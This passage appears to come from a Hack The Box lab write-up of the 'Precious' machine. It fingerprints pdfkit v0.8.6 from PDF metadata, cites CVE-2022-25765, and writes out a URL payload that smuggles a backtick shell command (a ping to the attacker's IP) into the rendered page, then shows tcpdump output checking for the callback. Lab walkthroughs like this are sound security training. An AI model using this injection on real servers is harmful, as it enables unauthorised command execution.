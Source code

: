 When we give `http://<attacker ip>/index.html`, a pdf is sent back with our html page converted to pdf as contents.

```bash

┌──(n3hal㉿Universe7)-[~/Documents/hackthebox/precious]
└─$ exiftool ix1e6gpx3zrpxc7ra10ohxc1jlhsc91b.pdf 
ExifTool Version Number         : 12.44
File Name                       : ix1e6gpx3zrpxc7ra10ohxc1jlhsc91b.pdf
Directory                       : .
File Size                       : 11 kB
File Modification Date/Time     : 2022:12:23 03:39:46-05:00
File Access Date/Time           : 2022:12:23 03:39:46-05:00
File Inode Change Date/Time     : 2022:12:23 03:39:46-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
                                                            
```

The metadata of the PDF reveals the utility used to create it: `pdfkit v0.8.6`.

There is a RCE issue specific to that version of utility, having CVE id: `CVE-2022-25765`.

If `pdfkit` tries to render a URL that is controlled by user, it can potentially lead to RCE. 

If the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF.

Learn more about it [here](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795).

**PAYLOAD**:

```

http://[attacker ip]/index.html?name=#{'%20`ping -c 4 [attacker ip]`'}

```

```bash

┌──(n3hal㉿Universe7)-[~/Documents/hackthebox/precious]
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
03:52:10.333065 IP 10.10.14.1 > 10.10.X.X: ICMP host precious.htb unreachable, length 68
03:52:10.333086 IP 10.10.14.1 > 10.10.X.X: ICMP host precious.htb unreachable, length 68
03:52:10.333095 IP 10.10.14.1 > 10.10.X.X: ICMP host precious.htb unreachable, length 68
03:52:10.333100 IP 10.10.14.1 > 10.10.X.X: ICMP host precious.htb unreachable, length 68
03:52:10.333107 IP 10.10.14.1 > 10.10.X.X: ICMP host precious.htb unreachable, length 68
03:52:13.630245 IP 10.10.14.1 > 10.10.X.X: ICMP host precious.htb unreachable, length 68

```
